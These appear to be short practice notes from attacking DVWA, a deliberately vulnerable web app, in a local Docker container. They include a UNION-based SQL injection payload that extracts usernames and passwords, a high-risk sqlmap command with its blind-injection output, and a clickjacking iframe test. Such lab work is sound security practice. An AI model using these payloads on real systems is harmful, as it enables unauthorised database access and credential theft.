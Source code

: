 docker run --rm -it -p 80:80 vulnerables/web-dvwa
http://localhost/index.php
reset/create database
admin
password
%' and 1=0 union select null, concat(user,':',password) from users #

python3 -m sqlmap -r ../dvwa/sqlmap.example --dbms=mysql --risk=3 --level=5
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
---

file:///home/mgolubev/Projects/dvwa/iframe.html
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.

